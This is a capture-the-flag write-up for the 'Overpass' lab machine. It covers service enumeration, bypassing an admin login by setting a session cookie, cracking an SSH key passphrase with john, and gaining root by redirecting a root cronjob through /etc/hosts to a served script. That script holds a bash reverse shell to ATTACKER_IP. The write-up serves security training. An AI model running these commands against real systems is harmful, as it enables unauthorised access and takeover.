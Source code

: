 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  | 10.10.138.135 |  |

---

First, I ran a basic `nmap` scan to enumerate the services that are running on the target machine.

```
sudo nmap -sC -sV -vv 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports: **SSH (22)** and **HTTP (80)**.

Navigating to the HTTP website, we can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Looks like the home page for a password manager called 'Overpass'.

Before carrying out our happy-path enumeration, let's use `gobuster` to see if we can enumerate any hidden directories:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in the scan.

With Gobuster up and running, we can start exploring the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it. Could it be the Caesar Cipher? Let's keep this in mind for now!

Next, on the 'Downloads' page, there are some files that we can download.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let's check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, looks like Gobuster has managed to find an interesting javascript file: **login.js**. 

It has also found an admininistrator login page at **/admin**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated by Gobuster earlier: 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint '/api/login'. The response is then stored in a variable 'statusOrCookie'. There is then a check to verify whether the user is authenticated or not. 

However, looking at the else statement which authenticates the user, if we simply create a **'SessionToken'** cookie and set any random value,  we will be redirected to the /admin page!

Let's test this out using the browser's developer tools. In there, I created a cookie called 'SessionToken' and assigned a random value to it:

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that we have been authenticated and have gained access into the administrator area:

![screenshot9](../assets/images/overpass/screenshot9.png)

There is a message along with an RSA private key. This key will probably be used to log into the SSH server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need a passphrase. We can try cracking the passphrase using `john`, which is a powerful hash cracking tool. 

First, we convert the key into a format that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Next, we use `john` on the output file from the previous command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice, `john` manages to crack james' private key passphrase:

> james13 

With that, we can log into the SSH server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from james' home directory.

---

Next, let's find a way to escalate our privileges. 

I noticed that there was a **todo.txt** file located in james' home directory:

![screenshot13](../assets/images/overpass/screenshot13.png)

It seems that james' password is stored in the password manager (Overpass) that he implemented. I used the `find` command to locate the Overpass binary on the target machine:

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by using the 'Retrieve All Passwords' option:

![screenshot14](../assets/images/overpass/screenshot14.png)

james' password is: 

> saydrawnlyingpicture

Next, let's see what **sudo privileges** james has on this machine:

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. We'll need to find another privesc method.

To automate the privesc enumeration, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to find an interesting cronjob:

![screenshot16](../assets/images/overpass/screenshot16.png)

---

**Understanding cronjobs**

Below is an example cronjob:

```
* * * * * root rm /home/someuser/tmp*
```

The `*` symbols indictate the frequency of the cronjob. The name placed after the symbols refers to the user that will run the job. Finally, the command to be run will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will be run by root every minute (as shown by 5 `*` symbols).

---

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a 'buildscript.sh' file from 'overpass.thm/downloads/src' every minute and pipes it over to `bash`, which will execute it. The important thing to note is that this command is executed by the root user. 

We can exploit this by creating our own buildscript.sh file, which sets up a reverse shell that connects back to our local machine. We then ensure that when the target machine connects to 'overpass.thm', it is actually connecting to us. Then, when our buildscript.sh file is downloaded and executed by the target machine, it will be executed by root, hence opening a root reverse shell.

Let's set this up!

First, I needed to know what IP address 'overpass.thm' pointed to. Looking at the /etc/hosts file on the target machine, we actually see that 'overpass.thm' points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to 'overpass.thm', the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called 'buildscript.sh' with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local machine.

I placed this script inside a '/downloads/src' directory within my machine. I then started up a Simple HTTP Server on port 80 using Python.

Finally, I set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

After a minute has passed, we can see that my buildscript.sh file was indeed downloaded by the target machine:

![screenshot20](../assets/images/overpass/screenshot20.png)

It was then executed, successfully opening the reverse shell:

![screenshot21](../assets/images/overpass/screenshot21.png)

With that, we've gained access to the target machine as root!

We can then obtain the root flag found in /root.

